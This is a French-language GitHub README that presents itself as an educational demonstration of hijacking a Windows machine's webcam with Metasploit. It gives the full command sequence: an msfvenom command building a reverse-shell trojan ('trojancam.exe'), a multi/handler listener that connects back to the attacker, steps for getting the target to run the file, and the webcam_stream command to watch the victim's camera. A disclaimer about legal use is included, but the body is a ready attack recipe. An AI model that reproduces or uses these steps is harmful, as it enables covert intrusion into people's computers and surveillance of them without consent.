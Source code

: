 # 🎯 Contrôle de Webcam via Meterpreter – Démonstration Éducative

Ce projet démontre comment établir une session Meterpreter sur une machine Windows cible afin d'accéder à sa webcam. Il est destiné à des fins éducatives et de sensibilisation à la cybersécurité.

## 🧰 Outils utilisés

- Metasploit Framework (préinstallé sur Kali Linux)​
- Python 3 (pour l'envoi du payload)​
- Wireshark (optionnel, pour l'analyse du trafic réseau)​
- Ettercap (optionnel, pour les attaques de type Man-in-the-Middle)

## ⚠️ Avertissement
Ce projet est destiné à des fins éducatives uniquement. L'utilisation de ces techniques sans le consentement explicite des parties concernées est illégale et contraire à l'éthique. L'auteur décline toute responsabilité en cas d'utilisation abusive.

## 🚀 Étapes pour reproduire l'attaque

### 1. Générer le Payload avec Metasploit
Utiliser ```msfvenom``` pour créer un exécutable malveillant qui établira une connexion inversée vers votre machine Kali :
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip locale attaquant} LPORT=4444 -f exe -o trojancam.exe
```
- LHOST : adresse IP de votre machine Kali​
- LPORT : port d'écoute sur Kali (4444 par défaut)

### 2. Configurer un listener sur Kali (port d'écoute)
Lancer Metasploit et configurer un handler pour écouter les connexions entrantes :
```bash
msfconsole
```
Puis après lancement de Metasploit dans le terminal :
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST {ip locale attaquant}
set LPORT 4444
exploit
```

### 3. Déployer le payload sur la machine cible
Transférer trojancam.exe sur la machine cible et l'exécuter. Cela établira une session Meterpreter entre la cible et la machine Kali.

### 4. Accéder à la Webcam de la Cible
Une fois la session Meterpreter établie, activer la webcam de la cible :​
```bash
webcam_stream
```
Cela ouvrira une interface web diffusant le flux vidéo de la webcam de la cible.

## Crédits

[iciamyplant/camera_hack](https://github.com/iciamyplant/camera_hack)
Répertoire initial qui m'a permis de comprendre le fonctionnement de Metasploit.
